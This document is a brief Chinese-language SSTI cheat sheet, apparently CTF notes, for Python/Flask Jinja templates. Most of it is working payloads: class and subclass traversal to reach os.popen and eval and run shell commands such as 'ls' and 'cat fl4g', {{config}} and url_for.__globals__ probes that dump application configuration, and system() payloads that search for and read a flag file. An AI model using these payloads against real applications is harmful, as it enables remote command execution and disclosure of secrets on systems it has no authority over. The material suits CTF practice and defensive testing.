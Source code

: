 # SSTI

* ### 标准SSTI查询语句

```
''.__class__.__base__.__subclasses__() //返回子类列表
''.__class__.__base__.__subclasses__()[30].__init__ //查看第30位子类的init，返回<slot wrapper '__init__' of 'object' objects>则未被重载不存在init
''.__class__.__base__.__subclasses__()[5].__init__.__globals__['__builtins__']['eval']  //执行命令
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()  //得到ls结果并打印在页面上
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
```

* ### SSTI注入

源代码未对config进行过滤时：

```
{{config}} //调出所有app.config中的字段
```

SSTI注入尝试：对于@app.route\('/shrine/'\)，使用

```
/shrine/{{1+1}}
```

进行注入尝试

```
/shrine/{{url_for.__globals__}}   //查看全局
/shrine/{{url_for.__globals__['current_app'].config}}  //查看当前app下的config
```

Payload：

```
{{system('find / -name flag')}}    //查找名为flag的文件
{{system('cat /flag')}}   //获取根目录下名为flag的文件
```



